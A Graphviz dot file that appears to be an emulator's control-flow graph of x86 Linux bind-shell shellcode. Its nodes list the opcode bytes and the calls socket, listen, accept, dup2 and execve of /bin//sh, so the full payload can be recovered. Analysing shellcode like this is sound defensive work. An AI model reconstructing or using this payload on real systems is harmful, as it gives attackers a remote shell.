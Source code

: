 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0xb60dd0" [shape=box, label = "0x00417000 31DB                            xor ebx,ebx\l0x00417002 F7E3                            mul ebx\l0x00417004 B066                            mov al,0x66\l0x00417006 43                              inc ebx\l0x00417007 52                              push edx\l0x00417008 53                              push ebx\l0x00417009 6A02                            push byte 0x2\l0x0041700b 89E1                            mov ecx,esp\l"]
	 "0xb5e200" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041700d socket\l"]
	 "0xb5dc70" [shape=box, label = "0x0041700f 52                              push edx\l0x00417010 50                              push eax\l0x00417011 89E1                            mov ecx,esp\l0x00417013 B066                            mov al,0x66\l0x00417015 B304                            mov bl,0x4\l"]
	 "0xb5be70" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417017 listen\l"]
	 "0xb5b8e0" [shape=box, label = "0x00417019 B066                            mov al,0x66\l0x0041701b 43                              inc ebx\l"]
	 "0xb5a4c0" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041701c accept\l"]
	 "0xb59910" [shape=box, label = "0x0041701e 59                              pop ecx\l0x0041701f 93                              xchg eax,ebx\l"]
	 "0xb58470" [shape=box, label = "0x00417020 6A3F                            push byte 0x3f\l"]
	 "0xb57a10" [shape=box, label = "0x00417022 58                              pop eax\l"]
	 "0xb56f90" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417023 dup2\l"]
	 "0xb56740" [shape=box, label = "0x00417025 49                              dec ecx\l"]
	 "0xb60a80" [shape=box, label = "0x00417026 79F8                            jns 0xfffffffa\l"]
	 "0xb5dee0" [shape=box, label = "0x00417028 B00B                            mov al,0xb\l0x0041702a 682F2F7368                      push dword 0x68732f2f\l0x0041702f 682F62696E                      push dword 0x6e69622f\l0x00417034 89E3                            mov ebx,esp\l0x00417036 41                              inc ecx\l"]
	 "0xb5dd10" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417037 execve\l"]
	 "0xb60dd0" -> "0xb5e200" [style = bold ]
	 "0xb5e200" -> "0xb5dc70" [style = bold ]
	 "0xb5dc70" -> "0xb5be70" [style = bold ]
	 "0xb5be70" -> "0xb5b8e0" [style = bold ]
	 "0xb5b8e0" -> "0xb5a4c0" [style = bold ]
	 "0xb5a4c0" -> "0xb59910" [style = bold ]
	 "0xb59910" -> "0xb58470" [style = bold ]
	 "0xb58470" -> "0xb57a10" [style = bold, color=orange ]
	 "0xb57a10" -> "0xb56f90" [style = bold, color=orange ]
	 "0xb56f90" -> "0xb56740" [style = bold, color=orange ]
	 "0xb56740" -> "0xb60a80" [style = bold, color=orange ]
	 "0xb60a80" -> "0xb58470" [style = bold, color=orange ]
	 "0xb60a80" -> "0xb5dee0" [style = bold ]
	 "0xb5dee0" -> "0xb5dd10" [style = bold ]
}